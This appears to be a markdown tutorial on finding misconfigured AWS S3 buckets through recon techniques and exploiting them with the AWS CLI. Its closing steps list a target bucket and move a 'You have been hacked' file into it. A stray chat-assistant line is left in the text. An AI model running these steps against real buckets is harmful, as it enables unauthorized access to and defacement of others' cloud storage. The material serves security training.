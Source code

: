 
| #   | Technique                   | Description                                                                                                     |
| --- | ----------------------------| ----------------------------------------------------------------------------------------------------------------- |
| 1   | Inspecting HTML             | Analyze HTML source code to find URLs leading to target S3 buckets.                                              |
| 2   | Brute-Forcing URL           | Use Burp Suite for a brute-force attack on the target bucket's URL to identify the correct URL.                   |
| 3   | Finding Subdomains          | Utilize tools like Findsubdomains and Robtex to identify subdomains related to the target bucket.                  |
| 4   | Reverse IP Search           | Leverage search engines like Bing for a reverse IP search to identify domains associated with the target buckets. |
| 5   | Advanced Google Hacking     | Employ advanced Google search operators such as "inurl" to discover URLs linked to the target S3 buckets.          |

---

#### Exploit open S3 Buckets using AWS CLI

- The AWS Command Line Interface (CLI) is a powerful tool for managing AWS services.

Certainly! Here's the reformatted content starting from 1:

1. Create an [AWS account](https://aws.amazon.com).

2. Install AWS CLI:
  ```bash
  pip3 install awscli
  ```

3. Verify the installation:
  ```bash
  aws --help
  ```

4. Configure AWS CLI:
  ```bash
  aws configure
  ```
  Provide the required details (Access Key ID, Secret Access Key, Default region name, and Default output format).

5. Login to your AWS account in the browser.

6. Create a new access key in the AWS Management Console.

7. Copy the Access Key ID and paste it into the terminal.

8. Copy the Secret Access Key and paste it into the terminal.

9. Set the Default region name to `eu-west-1`.

10. Confirm the Default output format.

11. List directories in the target S3 bucket:
  ```bash
  aws s3 ls s3://github
  ```

12. Move a file to the S3 bucket:
  ```bash
  echo "You have been hacked" >> Hack.txt
  aws s3 mv Hack.txt s3://github
  ```
